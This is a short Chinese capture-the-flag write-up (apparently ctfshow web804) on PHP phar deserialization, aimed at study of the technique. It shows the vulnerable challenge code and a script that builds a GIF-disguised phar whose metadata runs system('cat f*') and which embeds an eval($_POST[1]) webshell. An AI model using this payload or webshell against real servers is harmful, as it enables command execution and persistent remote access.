 phar实现文件包含原理：当与包含函数结合后，会直接执行phar中的内容，达到命令执行的效果

##  web804

考点：利用`phar反序列化`

利用特点：有`file_put_contents`实现文件上传的目的，将`phar`文件上传到题目服务器上，然后`file_exists`和`unlink`的影响函数，都可以触发`phar的反序列化`，从而达到反序列化中的命令执行

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}

$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file)){
        unlink($file);
    }else{
        file_put_contents($file,$content);
    }
}
```

phar文件的生成：

```php
<?php 
class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}
$a=new hacker();
$a->code="system('cat f*');";
$phar = new Phar("shell.phar");
$phar->startBuffering();
$phar->setMetadata($a);
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString("a.txt", "<?php eval(\$_POST[1]);?>");
$phar->stopBuffering();
?>

```
